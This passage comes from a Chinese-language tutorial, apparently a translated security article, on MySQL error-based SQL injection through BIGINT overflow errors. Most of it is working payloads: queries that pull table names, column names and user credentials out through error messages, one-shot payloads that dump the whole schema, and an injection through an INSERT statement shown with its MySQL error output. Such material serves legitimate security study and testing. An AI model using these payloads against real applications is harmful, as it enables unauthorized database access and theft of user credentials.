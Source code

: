 提取数据的方法，跟其他注入攻击手法中的一样，这里只做简单介绍。

首先，我们来获取表名：

```
!(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)-~0

```

取得列名：

```
select !(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)-~0;

```

检索数据：

```
!(select*from(select concat_ws(':',id, username, password) from users limit 0,1)x)-~0;

```

![enter image description here](http://drops.javaweb.org/uploads/images/d199fdfe6dbba7d7352e813eef4ed44bcebaba07.jpg)

0x004 一次性转储
===========

* * *

我们能够一次性转储所有数据库、列和数据表吗？ 答案是肯定的。但是，当我们从所有数据库中转储数据表和列的时候，只能得到较少的结果，毕竟我们是通过错误消息来检索数据的。 不过，如果我们是从当前数据库中转储数据的话，一次最多可以转储27个结果。下面举例说明。

```
!(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0
(select(!x-~0)from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
(select!x-~0.from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)

```

![enter image description here](http://drops.javaweb.org/uploads/images/d240884f88f6930b7d006daa66b8bd0b650f402a.jpg)

这些限制了我们可以检索的结果的数量，即最多27个。假设，我们在一个数据库中创建了一个31列的数据表。 那么，我们只能看到27个结果，而我的其他4个表和该用户数据表的其他列都无法返回。

![enter image description here](http://drops.javaweb.org/uploads/images/50fa947f403f0144de73c43d1d6354401cc23648.jpg)

0x05 利用插入语句进行注入
===============

* * *

利用插入语句，我们也可以进行类似的注入攻击，具体语法为`‘’ or (payload) or “”`。

```
mysql> insert into users (id, username, password) values (2, '' or !(select*from(select user())x)-~0 or '', 'Eyre');
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```
